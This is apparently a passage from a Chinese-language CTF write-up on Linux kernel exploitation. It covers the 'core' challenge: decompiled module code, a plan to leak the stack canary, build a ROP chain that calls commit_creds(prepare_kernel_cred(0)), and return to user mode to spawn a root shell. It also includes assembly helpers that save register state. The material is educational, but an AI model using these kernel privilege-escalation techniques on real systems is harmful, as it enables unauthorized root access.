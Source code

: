 **core_write()** 向全局变量 `name` 上写，这样通过 `core_write()` 和 `core_copy_func()` 就可以控制 ropchain 了
```C
signed __int64 __fastcall core_write(__int64 a1, __int64 a2, unsigned __int64 a3)
{
  unsigned __int64 v3; // rbx

  v3 = a3;
  printk("\x016core: called core_writen");
  if ( v3 <= 0x800 && !copy_from_user(name, a2, v3) )
    return (unsigned int)v3;
  printk("\x016core: error copying data from userspacen");
  return 0xFFFFFFF2LL;
}
```

### 思路

经过如上的分析，可以得出以下的思路：

1. 通过 ioctl 设置 off，然后通过 core\_read() leak 出 canary
2. 通过 core\_write() 向 name 写，构造 ropchain
3. 通过 core\_copy_func() 从 name 向局部变量上写，通过设置合理的长度和 canary 进行 rop
4. 通过 rop 执行 `commit_creds(prepare_kernel_cred(0))`
5. 返回用户态，通过 system("/bin/sh") 等起 shell

解释一下：

- 如何获得 commit\_creds()，prepare\_kernel\_cred() 的地址？
	- /tmp/kallsyms 中保存了这些地址，可以直接读取，同时根据偏移固定也能确定 gadgets 的地址
- 如何返回用户态？
	- `swapgs; iretq`，之前说过需要设置 `cs, rflags` 等信息，可以写一个函数保存这些信息

```C
// intel flavor assembly
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
	__asm__("mov user_cs, cs;"
			"mov user_ss, ss;"
			"mov user_sp, rsp;"
			"pushf;"
			"pop user_rflags;"
			);
	puts("[*]status has been saved.");
}

// at&t flavor assembly
void save_stats() {
asm(
	"movq %%cs, %0\n"
	"movq %%ss, %1\n"
	"movq %%rsp, %3\n"
	"pushfq\n"
	"popq %2\n"
	:"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
	:
	: "memory"
);
}
```
